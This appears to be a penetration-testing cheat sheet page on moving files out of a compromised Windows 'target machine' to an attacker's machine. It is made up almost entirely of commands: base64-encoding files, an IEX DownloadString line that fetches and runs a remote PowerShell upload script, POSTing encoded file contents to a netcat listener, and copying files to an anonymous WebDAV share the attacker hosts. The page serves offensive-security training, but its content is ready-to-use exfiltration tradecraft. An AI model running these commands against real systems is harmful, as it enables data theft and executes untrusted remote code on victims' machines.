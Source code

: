 ## <mark style="color:orange;">Upload from PowerShell</mark>

* &#x20;Using base64 encoding

{% code overflow="wrap" lineNumbers="true" %}
```bash
# On the target machine
PS\> Get-FileHash $pathToFile -Algorithm md5 #Check hash of the file
PS\> [Convert]::ToBase64String((Get-Content -path "C$pathToFile" -Encoding byte))

#On our machine
echo $b64String | base64 -d > $file
md5sum $file #Check hash to confirm the integrity of the file
```
{% endcode %}

***

* From the target system to a web&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
pip3 install uploadserver
python3 -m uploadserver

#On the target system
PS\> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS\> Invoke-FileUpload -Uri http://$IP:$port/upload -File $pathToFile
```
{% endcode %}

***

* Use base64 encoding to send a web request and catch it with [_Netcat_](../../../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
nc -nvlp $port

#On the target system
PS\> $b64 = [System.convert]::ToBase64String((Get-Content -Path '$pathToFile' -Encoding Byte))
PS\> Invoke-WebRequest -Uri http://$IP:$port/ -Method POST -Body $b64
```
{% endcode %}

## <mark style="color:orange;">Upload using SMB</mark>

* Mount an SMB server on our machine to share files and download them on the target machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On our machine
sudo pip install wsgidav
sudo pip install cheroot

sudo wsgidav --host=0.0.0.0 --port=$port --root=/tmp --auth=anonymous

#On the target machine
PS\> dir \\$IP\DavWWWRoot
PS\> Copy-Item $pathToFile \\$IP\DavWWWRoot\
```
{% endcode %}
